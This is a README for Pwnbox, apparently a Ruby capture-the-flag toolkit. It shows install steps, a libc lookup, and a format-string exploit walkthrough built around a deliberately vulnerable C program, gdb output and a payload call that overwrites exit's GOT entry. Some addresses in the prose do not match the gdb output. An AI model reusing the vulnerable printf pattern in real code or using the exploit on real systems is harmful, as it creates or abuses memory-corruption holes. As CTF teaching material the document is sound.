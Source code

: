 # Pwnbox

Capture-The-Flag(CTF) toolkit

## Installation

Add this line to your application's Gemfile:

    gem 'pwnbox'

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install pwnbox

## Usage

### Find a libc.so

```ruby
    libc = Pwnbox::Pwnable.find_libc(['system', 0x40100])
    puts "Path : #{libc.path}"
    puts "Read address : 0x%08X" % libc.find_address_by_name('read')
```

### Format string bug

An example is following.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char** argv)
{
    char buf[0x100];
    strncpy(buf, argv[1], 40);
    printf(buf);
    exit(-1);
}
```

Get exploit parameters using gdb.

```shell
=> 0x080484c7 <+74>:    call   0x8048330 <printf@plt>
(gdb) x/i 0x8048350
   0x8048350 <exit@plt>:        jmp    *0x804a014
(gdb) x/x $esp
0xbffff2f0:     0xbffff30c
```

exit GOT is 0x804a008. buffer address is 0xbffff30c and esp is 0xbffff2e0.

```ruby
Pwnbox::Pwnable.fsb(0x804a014, 0xbffff30c - 0xbffff2f0, [0xdeadbeef].pack('<I'))
```
